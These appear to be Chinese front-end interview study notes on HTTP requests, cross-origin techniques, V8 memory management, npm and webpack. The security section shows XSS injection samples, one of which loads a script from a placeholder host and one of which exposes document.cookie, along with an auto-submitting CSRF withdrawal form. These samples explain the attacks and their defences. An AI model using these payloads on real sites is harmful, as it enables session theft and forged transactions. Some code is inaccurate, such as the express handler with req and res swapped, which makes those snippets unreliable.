    * readyState 请求相应过程
        * 0 ubsent 代理被创建，但未调用open
        * 1 opened 已经调用open
        * 2 headers_received send方法已调用，并且头部和状态已经可以获得
        * 3 loading 下载中，
        * 4 done 请求完成
```js
function success(text) {
    var textarea = document.getElementById('test-response-text');
    textarea.value = text;
}

function fail(code) {
    var textarea = document.getElementById('test-response-text');
    textarea.value = 'Error code: ' + code;
}

var request = new XMLHttpRequest(); // 新建XMLHttpRequest对象
// 发送请求:
request.open('GET', '/api/categories'); //get请求 参数parma在url中

request.onreadystatechange = function () { // 状态发生变化时，函数被回调
    if (request.readyState === 4) { // 成功完成
        // 判断响应结果:
        if (request.status === 200) {
            // 成功，通过responseText拿到响应的文本:
            return success(request.responseText);
            request.response
        } else {
            // 失败，根据响应码判断失败原因:
            return fail(request.status);
        }
    } else {
        // HTTP请求还在继续...
    }
}


request.setRequestHeader(header, value) //是设置HTTP请求头部的方法。此方法必须在  open() 方法和 send()   之间调用。

request.send(data);//请求体中的内容

alert('请求已发送，请等待响应...');
```

###Axios
```js
axios.get(url,{
    header:value,
    param:value})

axios.post(url,data,{
    header:value,
}).then(res=>{
    res.data
})
 // 在没有设置 `transformRequest` 时，data 必须是以下类型之一：
  // - string, plain object, ArrayBuffer, ArrayBufferView, URLSearchParams
  // - 浏览器专属：FormData, File, Blob
  // - Node 专属： Stream
```

### express
```js
app.get(url,(res,req)=>{
    res.query() //解析url中的参数
    res.body()  //请求体

    req.send() //Buffer object, a String, an object, or an Array. 
    req.json() //使用 JSON.stringify()
})
```

### 跨域 
[参考](https://www.liaoxuefeng.com/wiki/1022910821149312/1023022332902400)
同源是指"协议+域名+端口"三者相同
跨域指一个域下的文档或脚本试图去请求另一个域下的资源，我们通常所说的跨域是狭义的，是由浏览器同源策略限制的一类请求场景

```js
http://www.a.com/a.js
http://www.a.com/b.js         同一域名，不同文件或路径           允许,属于同源
http://www.a.com/lab/c.js

http://www.a.com:8000/a.js
http://www.a.com/b.js         同一域名，不同端口                不允许
 
http://www.a.com/a.js
https://www.a.com/b.js        同一域名，不同协议                不允许
 
http://www.a.com/a.js
http://192.168.4.12/b.js      域名和域名对应相同ip              不允许
 
http://www.a.com/a.js
http://x.a.com/b.js           主域相同，子域不同                不允许
http://a.com/c.js

```
#### 图像Ping
* 返回内容通常是 像素图 或 204 
* 只能发送get请求
* 无法访问服务器的响应文本

```js
var img = new Image();
img.onload = function(){
    alert("done");
}
img.src = 'http://localhost:9871/api/jsonp?msg=helloJsonp&callback=jsonpCb';
document.getElementById("d1").appendChild(img);
```


#### JSONP
1. 一个众所周知的问题，Ajax直接请求普通文件存在跨域无权限访问的问题，甭管你是静态页面、动态网页、web服务、WCF，只要是跨域请求，一律不准；

2. 不过我们又发现，Web页面上调用js文件时则不受是否跨域的影响（不仅如此，我们还发现凡是拥有"src"这个属性的标签都拥有跨域的能力，比如`<script>  <iframe>）`；

3. 于是可以判断，当前阶段如果想通过纯web端（ActiveX控件、服务端代理、属于未来的HTML5之Websocket等方式不算）跨域访问数据就只有一种可能，那就是在远程服务器上设法把数据装进js格式的文件里，供客户端调用和进一步处理；

4. 恰巧我们已经知道有一种叫做JSON的纯字符数据格式可以简洁的描述复杂数据，更妙的是JSON还被js原生支持，所以在客户端几乎可以随心所欲的处理这种格式的数据；

5. 这样子解决方案就呼之欲出了，web客户端通过与调用脚本一模一样的方式，来调用跨域服务器上动态生成的js格式文件（一般以JSON为后缀），显而易见，服务器之所以要动态生成JSON文件，目的就在于把客户端需要的数据装入进去。

6. 客户端在对JSON文件调用成功之后，也就获得了自己所需的数据，剩下的就是按照自己需求进行处理和展现了，这种获取远程数据的方式看起来非常像AJAX，但其实并不一样。

7. 为了便于客户端使用数据，逐渐形成了一种非正式传输协议，人们把它称作JSONP，该协议的一个要点就是允许用户传递一个**callback参数**给服务端，然后服务端返回数据时会将这个**callback参数作为函数名**来包裹住JSON数据，这样客户端就可以随意定制自己的函数来自动处理返回数据了。


是 json 的一种"使用模式"，可以让网页从别的域名（网站）那获取资料，即跨域读取数据,只能发送get请求

通过动态创建script，再请求一个带参网址实现跨域通信

```html
<script src='http://localhost:9871/api/jsonp?msg=helloJsonp&callback=jsonpCb'></script>

<script>
function jsonpCb(data){
    console.log(data)
}
</script>
```
```js
//数据
jsonCb({
    name:'1',
    age:2,
})
```
其中？后面为参数 有 
* msg：helloJsonp， 
* callback=jsonCb  
    * 后端将jsonCb作为函数名来包裹住JSON数据
    * jsonCb在前端作为回调函数名，来对获得的数据进行处理

> 有些数据能之间通过jsonp请求得到，但有些数据请求不能通过get方式得到，服务器会对请求头的一些配置做要求（比如qq音乐的服务器就要去一定要是qq音乐页面访问服务器资源才行，需要使用ajax请求来设置头部的referer）,所以不能使用jsonp来进行跨域请求。

> JsonP 只能设置请求的 Query String Parameters指的就是通过在URL中携带的方式提交的参数，而不是设置 request header 也就是请求头

#### CORS
通过使用**自定义头部来和服务器沟通**，从而决定请求或响应是否成功。

跨域资源共享(CORS) 是一种机制，它使用额外的 HTTP 头来告诉浏览器  让运行在一个 origin (domain) 上的Web应用被准许访问来自不同源服务器上的指定的资源。

使用 Origin 和 Access-Control-Allow-Origin 就能完成最简单的访问控制。

当浏览器检测到HTTP跨域请求时，会自动添加Origin字段信息

>referer 表示从哪个网页来到这个网页的，如果我们直接在浏览器输入后者的网址进行请求，则referer就不见了，

* 简单请求  (不会触发 CORS 预检请求)
    * head，post，get 且 
    * 头部信息不超出
        * Accept
        * Accept-Language
        * Content-Language
        * Last-Event-ID
        * Content-Type：只限于三个值application/x-www-form-urlencoded、multipart/form-data、text/plain
    * 浏览器直接发出CORS请求，在头信息之中，增加一个**Origin**字段 
    * 如果Origin指定的域名在许可范围内，服务器返回的响应，会多出几个头信息字段
        * **Access-Control-Allow-Origin**。该字段是必须的。它的值要么是请求时Origin字段的值，要么是一个*，表示接受任意域名的请求。
        * **Access-Control-Allow-Credentials**。该字段可选。它的值是一个布尔值，表示是否允许发送**Cookie**。默认情况下，Cookie不包括在CORS请求之中。设为true，即表示服务器明确许可，Cookie可以包含在请求中，一起发给服务器。这个值也只能设为true，如果服务器不要浏览器发送Cookie，删除该字段即可。
        * Access-Control-Expose-Headers。该字段可选。CORS请求时，XMLHttpRequest对象的getResponseHeader()方法只能拿到6个基本字段：Cache-Control、Content-Language、Content-Type、Expires、Last-Modified、Pragma。如果想拿到其他字段，就必须在Access-Control-Expose-Headers里面指定。上面的例子指定，getResponseHeader('FooBar')可以返回FooBar字段的值。
* 非简单请求
    * 非简单请求的CORS请求，会在正式通信之前，增加一次HTTP查询请求，称为**预检请求**（preflight）。
        * **Access-Control-Request-Method**。该字段是必须的，用来列出浏览器的CORS请求会用到哪些HTTP方法，上例是PUT。
        * Access-Control-Request-Headers。该字段是一个逗号分隔的字符串，指定浏览器CORS请求会额外发送的头信息字段，上例是X-Custom-Header。
    * 服务器确认跨域请求，返回
        * **Access-Control-Allow-Methods**。该字段必需，它的值是逗号分隔的一个字符串，表明服务器支持的所有跨域请求的方法。注意，返回的是所有支持的方法，而不单是浏览器请求的那个方法。这是为了避免多次"预检"请求。
        * **Access-Control-Allow-Headers**。如果浏览器请求包括Access-Control-Request-Headers字段，则Access-Control-Allow-Headers字段是必需的。它也是一个逗号分隔的字符串，表明服务器支持的所有头信息字段，不限于浏览器在"预检"中请求的字段。
        * Access-Control-Allow-Credentials。该字段与简单请求时的含义相同。
        * **Access-Control-Max-Age**。该字段可选，用来指定本次**预检请求的有效期**，单位为秒。上面结果中，有效期是20天（1728000秒），即允许缓存该条回应1728000秒（即20天），在此期间，不用发出另一条预检请求。
    * 接下来浏览器再次发出请求，和简单请求一样。


#### postMessage 
只要获得两个窗口的引用，就可以使用 postMessage 来传递消，要使用postMessage进行通信，就需要获取得到另一个窗口的window对象，比较局限
* 页面和其打开的新窗口的数据传递
* 多窗口之间消息传递 
* 页面与嵌套的iframe消息传递 ✔
    * 表示嵌套的浏览上下文，有效地将另一个HTML页面嵌入到当前页面中。
* 上面三个场景的跨域数据传递

postMessage(data,targetOrigin) 
* data 传递的数据
* targetOrigin 通过窗口的origin属性来指定哪些窗口能接收到消息事件，其值可以是字符串"*"（表示无限制）或者一个URI。

message event
`addEventListener('message',callback) `
* data :   指的是从其他窗口发送过来的消息对象;
* type:   指的是发送消息的类型;
* source:   指的是发送消息的窗口对象;
* origin:  指的是发送消息的窗口的源

```js
//a.html
<iframe id="iframe" src="http://www.domain2.com/b.html" style="display:none;"></iframe> 
<script>       
    var iframe = document.getElementById('iframe');
    iframe.onload = function() {
        var data = {
            name: 'aym'
        };
        //在这里可以请求 此页面同源的资源 传递给 http://www.domain2.com
        // 向domain2传送跨域数据
        iframe.contentWindow.postMessage(JSON.stringify(data), 'http://www.domain2.com');
            //通过窗口的origin属性来指定哪些窗口能接收到消息事件
    };

    // 接受domain2返回数据
    window.addEventListener('message', function(e) {
        alert('data from domain2 ---> ' + e.data);
    }, false);
</script>

//b.html
<script>
    // 接收domain1的数据
    window.addEventListener('message', function(e) {
        alert('data from domain1 ---> ' + e.data);

        var data = JSON.parse(e.data);
        if (data) {
            data.number = 16;
            //在这里可以请求 http://www.domain2.com 的资源并返回给父a.html
            // 处理后再发回domain1
            window.parent.postMessage(JSON.stringify(data), 'http://www.domain1.com');
        }
    }, false);
</script>
```

#### nginx反向代理跨域
通过在同源域名下架设一个代理服务器来转发，JavaScript负责把请求发送到代理服务器

以代理服务器来接受Internet上的连接请求，然后将请求转发给内部网络上的服务器，并将从服务器上得到的结果返回给Internet上请求连接的客户端

* 可以起到保护网站安全的作用，因为任何来自Internet的请求都必须先经过代理服务器。
* 通过缓存静态资源，加速Web请求。
* 实现负载均衡。

* 反向代理【proxy_pass】
* 负载均衡【upstream】

上面的反向代理中，我们通过proxy_pass来指定Tomcat的地址，很显然我们只能指定一台Tomcat地址，那么我们如果想指定多台来达到负载均衡呢？第一，通过upstream来定义一组Tomcat，并指定负载策略（IPHASH、加权论调、最少连接），健康检查策略（Nginx可以监控这一组Tomcat的状态）等。


将proxy_pass替换成upstream指定的值即可。
* proxy_pass
* proxy_cookie_domain  域名之间cookie的传递与回写

```js
upstream nirean-music { //负载均衡
        server 127.0.0.1:9000;  //后端代码运行在本机9000端口
}

server{  //服务器 
        listen 80; #监听本机80端口 监听所有的ipv4的地址 提供 HTTP 服务的进程监听在 TCP 80 端口
        server_name  m.nirean.cn;  #申请的域名
        access_log /var/log/nginx/music.log; #记录运行日志的地方
        error_log /var/log/nginx/music_err.log; //记录错误日志

        location / {
                root /usr/music-player/dist; #网页存放目录
                index index.html index.html;  #主页面
                proxy_set_header Host $host;  # #header添加请求host信息
                proxy_set_header X-Forwarded-For $proxy_add_x_forwarded_for; # 增加代理记录
                proxy_pass http://nirean-music; #proxy_pass说明是动态请求，需要进行转发
                proxy_cookie_domain http://nirean-music m.nirean.cn;  #a.test.com和b.test.com域名之间cookie的传递与回写
                proxy_cookie_path
        }
}

//正向代理
location / {
    proxy_pass http://$host$request_uri; // 主要是这部分不同 /$host$request_uri
}

```
#### 使用PM2运行后端代码
PM2 start prod.server.js
在127.0.0.1：9000 端口运行prod.server.js

node.js express
```js
var express= require('express')
var app = express();
var apiRouter = express.Router();

app.get(url,(req,res)=>{ //中间件，对url请求的处理

})

apiRouter.get('/',(req,res)=>{


})

app.use('/api',apiRouter); //添加对 '/api'的路由
app.listen(port)

```

## 浏览器优化
### 内存泄露 5个
不再用到的内存，没有及时释放，就叫做内存泄漏（memory leak）。

* 意外的全局变量: 无法被回收
```js
function foo(arg) {
    bar = "";
}

foo();

function foo() {
    this.bar = "";
}
```
* 定时器: 未被正确关闭，导致所引用的外部变量无法被释放
```js
let someResource = getData();
setInterval(() => {
    const node = document.getElementById('Node');
    if(node) {
        node.innerHTML = JSON.stringify(someResource));
    }
}, 1000);
```
* 事件监听: 没有正确销毁 (低版本浏览器可能出现)
```js
componentDidMount() {
    window.addEventListener("scroll", function () {
        // do something...
    });
}

//target.removeEventListener('scroll',fn)
```
* 闭包: 会导致父级中的变量无法被释放
```js
// 经典闭包
function closure() {
    var name = "innerName";
    return function() {
        console.log(name);
    }
}

var inner = closure();
inner();  // innerName;
```
* dom 引用: dom 元素被删除时，内存中的引用未被正确清空
```js
const button = document.getElementById('button');
document.body.removeChild(document.getElementById('button'));
//虽然这样看起来删除了这个 DOM 元素，但这个 DOM 元素仍然被 button 这个变量引用，所以在内存上，这个 DOM 元素是没法被回收的。
//所以在使用结束后，还需要将 button 设成 null。
```
####优化内存垃圾
1. 优化内存的一个最好的衡量方式就是只保留程序运行时需要的数据，对于已经使用的或者不需要的数据，应该将其值设为 null，这上面说过，叫“**解除引用**”。
2. 减少内存垃圾的另一个方法就是避免创建对象。当清空一个数组时，建议的做法是 **array.length = 0**，这样做不仅可以重用原来的变量，而且还避免创建了新的数组。
3. 避免过多使用闭包，在业务不需要用到的内部函数，可以重构在函数外，实现解除闭包
4. 注意清除定时器和事件监听器

### V8垃圾回收机制 [Google v8引擎](https://zhuanlan.zhihu.com/p/27628685)
垃圾回收: 将内存中不再使用的数据进行清理，释放出内存空间。

一般的垃圾回收机制分为 标记清除 和 计数引用

标记清除：当变量进入执行环境时标记为“进入环境”，当变量离开执行环境时则标记为“离开环境”，被标记为“进入环境”的变量是不能被回收的，因为它们正在被使用，而标记为“离开环境”的变量则可以被回收

计数引用：统计引用类型变量声明后被引用的次数，当次数为 0 时，该变量将被回收


V8 将内存分成 新生代空间 和 老生代空间。

新生代空间
* 新生代空间: 用于存活较短的对象
    * 又分成两个空间: 处于使用状态的 from 空间 与 处于闲置状态的to 空间
    * Scavenge GC（垃圾回收算法）算法: 当 from 空间被占满时，启动 GC 算法
        * 存活的**处于使用状态**对象从 from space 转移到 to space
        * 清空 from space ，释放了没有被引用的闲置对象
        * 将 from space 与 to space 互换
        * 完成一次新生代GC （垃圾回收算法）

它在时间效率上有优异的体现。Scavenge的缺点是只能使用堆内存的一半

老生代空间
* 老生代空间: 用于存活时间较长的对象

    * 从 新生代空间 转移到 老生代空间 的条件
        * 当一个对象经过多次复制仍然存活时，它就会被认为是生命周期较长的对象
        * 如果一个对象是第二次经历从From空间复制到To空间，那么这个对象会被移动到老生代中。
        * 当要从From空间复制一个对象到To空间时，如果To空间已经使用了**超过25%**，则这个对象直接晋升到老生代中。
    * 标记清除算法 Mark-Sweep: **标记存活**的对象，未被标记的则被释放
        * 全暂停：需要应用逻辑暂停下来，垃圾回收完后恢复应用程序逻辑
        * 增量标记: 小模块标记，在代码执行间隙执，GC 会影响性能
        * 并发标记(最新技术): 不阻塞 js 执行 在 GC 扫描和标记活动对象时，它允许 JavaScript 应用程序继续运行。
    * **压缩算法** Mark-Compact: 在标记完存活对象以后，会将活着的对象向内存空间的一端移动，移动完成后，直接清理掉边界外的所有内存。解决 内存的碎片化
    * 在取舍上，V8主要使用Mark-Sweep，在空间不足以对从新生代中晋升过来的对象进行分配时，才使用Mark-Compact。 


## 安全
* [XSS攻击](https://tech.meituan.com/2018/09/27/fe-security.html): 注入恶意代码 跨站脚本攻击

    * 分类
        * 存储型XSS 
            * 攻击者将恶意代码提交到目标网站的数据库中。
            * 用户打开目标网站时，网站服务端将恶意代码从数据库取出，拼接在 HTML 中返回给浏览器
        * 反射型XSS
            * 攻击者构造出特殊的 URL，其中包含恶意代码。
            * 用户打开带有恶意代码的 URL 时，网站服务端将恶意代码从 URL 中取出，拼接在 HTML 中返回给浏览器。（比如URL中的参数）
    * 解决
        * 转义页面上的输入内容和输出内容
        * cookie 设置 httpOnly,禁止javascript读取cookie
        * 设置验证码，防止脚本冒充提交危险操作
        

例如：

攻击者发现 `http://weibo.com/pub/star/g/xyyyd` 这个 URL 的内容未经过滤直接输出到 HTML 中。

于是攻击者构建出一个 URL，然后诱导用户去点击：
```html
<li><a href="http://weibo.com/pub/star/g/xyyyd"><script src=//xxxx.cn/image/t.js></script>">按分类检索</a></li>
```

攻击者发现`http://m.exmail.qq.com/cgi-bin/login?uin=aaaa&domain=bbbb` 这个 URL 的参数 uin、domain 未经转义直接输出到 HTML 中。

于是攻击者构建出一个 URL，并引导用户去点击： `http://m.exmail.qq.com/cgi-bin/login?uin=aaaa&domain=bbbb%26quot%3B%3Breturn+false%3B%26quot%3B%26lt%3B%2Fscript%26gt%3B%26lt%3Bscript%26gt%3Balert(document.cookie)%26lt%3B%2Fscript%26gt%3B`

用户点击这个 URL 时，服务端取出 URL 参数，拼接到 HTML 响应中：
```html
<script>
getTop().location.href="/cgi-bin/loginpage?autologin=n&errtype=1&verify=&clientuin=aaa"+"&t="+"&d=bbbb";return false;</script><script>alert(document.cookie)</script>"+"...
```
用户通过文本框输入的信息来显示在页面上，那么在文本框输入如下内容
``
```

```
#### CSRF: 跨站请求伪造，防护:

简单地说，是攻击者通过一些技术手段欺骗用户的浏览器去访问一个自己曾经认证过的网站并运行一些操作（如发邮件，发消息，甚至财产操作如转账和购买商品）。由于浏览器曾经认证过，所以被访问的网站会认为是真正的用户操作而去运行。这利用了web中用户身份验证的一个漏洞：简单的身份验证只能保证请求发自某个用户的浏览器，却不能保证请求本身是用户自愿发出的。

* GET类型的CSRF
* POST类型的CSRF
* 链接类型的CSRF

```html
<!--只需要一个HTTP请求-->
  

<!--这种类型的CSRF利用起来通常使用的是一个自动提交的表单-->
 <form action="http://bank.example/withdraw" method=POST>
    <input type="hidden" name="account" value="xiaoming" />
    <input type="hidden" name="amount" value="10000" />
    <input type="hidden" name="for" value="hacker" />
</form>
<script> document.forms[0].submit(); </script> 

<!--链接类型的CSRF并不常见，比起其他两种用户打开页面就中招的情况，这种需要用户点击链接才会触发。-->
<a href="http://test.com/csrf/withdraw.php?amount=1000&for=hacker" taget="_blank">
  重磅消息！！
</a>
```

攻击者**无法直接窃取**到用户的信息（Cookie，Header，网站内容等），仅仅是**冒用Cookie**中的信息。

* 解决办法
    * 验证HTTP **Referer**
        * Referer字段记录请求来源地址 检验是否是同一个源
    * 网站前端添加图形验证码,或者确认按钮
    * 在请求地址中添加takon验证
        *  CSRF Token,HTTP 请求中以参数的形式加入一个随机产生的 token，并在服务器端建立一个拦截器来验证这个 token
        * 双重Cookie，服务器先在页面埋入特定标志，在用户请求时带上此标记，来判断请求是否合法
    * 不被第三方网站访问到用户的**cookie sameSite**标记
    
#### token 防御 CSRF
[参考](https://zhuanlan.zhihu.com/p/61827277)

**Synchronizer token pattern(STP) 同步表单的 CSRF 校验**

我们可以要求所有的用户请求都携带一个 CSRF 攻击者无法获取到的 Token。服务器通过校验请求是否携带正确的 Token，来把正常的请求和攻击的请求区分开，也可以防范 CSRF 的攻击。

Token 可以在产生并放于 Session 之中，然后在每次请求时把 Token 从 Session 中拿出，与请求中的 Token 进行比对。

将 token 加入到请求参数中，再与后端进行比较，一般后端是保存在session中
token的生成
1. 在页面请求时，服务器随机生成一个 token 字符串，
2. 通过模板 在生成的页面的表单中加入该token 或者 meta 中 `<meta name='csrf-token' content=value>`
3. 通过 cookie 返回 sessionid

token的校验
1. 发送请求时，请求中会带上表单上的token，或者通过js代码添加 meta中的token，浏览器还会自动带上cookie中的 sessionid
2. 服务器接受到请求，判断请求中 cookie 中的 sessionid 所对应的 session 中的 token，和请求体中的token是否相等。

也可用**cookie存储验证信息**的方法来代替session Token

Token是一个比较有效的CSRF防护方法，只要页面没有XSS漏洞泄露Token，那么接口的CSRF攻击就无法成功。

但是此方法的实现比较复杂，需要给每一个页面都写入Token（前端无法使用纯静态页面），每一个Form及Ajax请求都携带这个Token，后端对每一个接口都进行校验，并保证页面Token及请求Token一致。这就使得这个防护策略不能在通用的拦截上统一拦截处理，而需要每一个页面和接口都添加对应的输出和校验。这种方法工作量巨大，且有可能遗漏。

**双重 Cookie 验证 Cookie-to-header token**
此方法相对于 CSRF Token 就简单了许多。可以直接通过前后端拦截的的方法自动化实现。后端校验也更加方便，只需进行请求中字段的对比，而不需要再进行查询和存储 Token。


1. 服务端生成一个 csrf_token ，并将这个 csrf_token 保存到 cookie中
2. 之后通过javascript在每次请求时将 csrf_token 设置到http header中的X-Csrf-Token属性中
3. 服务器端比较Cookie的csrf_token与header中的token是否一致。

优点
* 无需使用 Session，适用面更广，易于实施。
* Token 储存于客户端中，不会给服务器带来压力。
* 相对于 Token，实施成本更低，可以在前后端统一拦截校验，而不需要一个个接口和页面添加。

缺点
* Cookie 中增加了额外的字段。
* 如果有其他漏洞（例如XSS），攻击者可以注入Cookie，那么该防御方式失效。
* 难以做到子域名的隔离。
* 为了确保Cookie传输安全，采用这种防御方式的最好确保用整站 HTTPS 的方式，如果还没切 HTTPS 的使用这种方式也会有风险。
### npm 原理
#### 执行npm install
1. 根据package.json 文件中的  dependences（生产环境中用到的包） devDependencies（开发、测试环境） 来确定要安装的模块
2. 向 **registry** 发出请求来获得压缩包 （压缩包会缓存在 npm-cache 中）
3. 解压压缩包到当前项目的 node_modules 目录
4. 全局安装的模块会在 npm/node_modules

>运行npm install的时候，只会检查node_modules目录，而不会检查~/.npm目录。也就是说，如果一个模块在～/.npm下有压缩包，但是没有安装在node_modules目录中，npm 依然会从远程仓库下载一次新的压缩包。

> package-lock.json 是 npm install 生成的一份文件，用于记录当前状态下实际安装的各个模块的具体来源和版本号

一个 package.json 文件可以有以下几点作用：
* 作为一个描述文件，描述了你的项目依赖哪些包
* 允许我们使用 “语义化版本规则”（后面介绍）指明你项目依赖包的版本
* 让你的构建更好地与其他开发者分享，便于重复使用

语义化版本规则
* 如果只打算接受补丁版本的更新（也就是最后一位的改变），就可以这么写： 
    * 1.0
    * 1.0.x
    * ~1.0.4
* 如果接受小版本的更新（第二位的改变），就可以这么写： 
    * 1
    * 1.x
    * ^1.0.4
* 如果可以接受大版本的更新（自然接受小版本和补丁版本的改变），就可以这么写： 
    * *
    * x

`npm install <package_name> --save `表示将这个包名及对应的版本添加到 package.json的 dependencies

`npm install <package_name> --save-dev` 表示将这个包名及对应的版本添加到 package.json的 devDependencies


```js
typeof Function.prototype
"function"
```

### Symbol的内置对象
#### Iterator 
对象的Symbol.iterator属性，指向该对象的默认遍历器方法。

```js
const myIterable = {};
myIterable[Symbol.iterator] = function* () {
  yield 1;
  yield 2;
  yield 3;
};

[...myIterable] // [1, 2, 3]
```

#### toStringTag
对象的Symbol.toStringTag属性，指向一个方法。在该对象上面调用Object.prototype.toString方法时，如果这个属性存在，它的返回值会出现在toString方法返回的字符串之中，表示对象的类型。

```js
// 例一
({[Symbol.toStringTag]: 'Foo'}.toString())
// "[object Foo]"

// 例二
class Collection {
  get [Symbol.toStringTag]() {
    return 'xxx';
  }
}
let x = new Collection();
Object.prototype.toString.call(x) // "[object xxx]"
```

### 事件机制
> 事件捕获和事件冒泡是两个公司提出的为了解决页面中事件流（从页面中接受事件的顺序，事件发生顺序）的问题，**先事件捕获再事件冒泡**，现在默认情况下使用的是**事件冒泡**阶段调用事件处理函数

> addEventListener 第三个参数默认值为配置对象{capture:false} 以及第四个参数useCapture默认为false，表示在**事件冒泡**阶段调用事件处理函数;如果参数为true，则表示在事件捕获阶段调用处理函数

* e.targer 事件真正发出的dom 
* e.currentTarget 在事件冒泡阶段 捕获事件的dom


### html 语义化
表明一个标签内部是什么内容，机器也能读懂这部分标签是包含了什么内容

好处
* 当你的网页内容被机器所理解，网页所包含的信息也就更容易被搜索引擎检索到。
* 让网页内容更容易被搜索到。并且在搜索结果中排名更高。
* 提高代码的可读性

新增
1. 语义化标签
2. web storage localStorage sessionStorage
3. web worker
4. audio media

### onload ready
onload： 页面全部加载渲染完毕，包括图片资源等，并且只会触发一个回调函数
* performance.timeing

ready: 页面的dom结构渲染完毕 


ready 先执行，再执行 onload

### 接口防刷
1. 限制每个ip，用户 一定时间内的访问次数
2. 页面请求时生产token，在访问接口时带上，后端来限制该token在一定时间内的访问次数，（但是刷新页面就会解决）
3. 添加验证码，防止机刷

### webpack工作原理
1. 合并配置文件和命令中的参数，生成Compiler实例
2. 加载plugin插件，调用 Compiler实例的 run 方法开始编译
3. 通过 entry确定入口，并进行编译
4. 编译的过程中，根据文件类型调用不同的loader进行翻译，以及根据依赖关系，遍历编译所有的文件，并生成他们直接的依赖关系
5. 根据依赖关系，将有依赖的文件组装成一个chunk，再将每个chunk转换成一个单独的文件输出
6. 根据配置好的输出路径和文件名，将文件写入系统中

webpack在运行到特定的步骤会广播特定的事件，插件在监听到感兴趣的事件后会执行相应的逻辑


### 浏览器兼容
1. css默认样式，Normalize.css，统一默认样式
2. css不同前缀，webpack里的loader添加 postcss-loader 配合 autoprefixer
3. css hack，不同浏览器实现样式的方法不同，
条件注释
```html
    <!--[if IE 6]>
        <p>You are using Internet Explorer 6.</p>
    <![endif]-->

    <!--[if !IE]><!-->
        <script>alert(1);</script>
    <!--<![endif]-->

    <!–-[if IE 7]>
        <link rel="stylesheet" href="ie7.css" type="text/css" />
    <![endif]–->
```
css hack
```css
.box{
  color: red;
  _color: blue; /*针对后期检查将ie6和其他浏览器区别开来的标准*/
  *color: pink; /*同上，ie6、7*/
  color: yellow\9;  /*ie/edge 6-8*/
}
```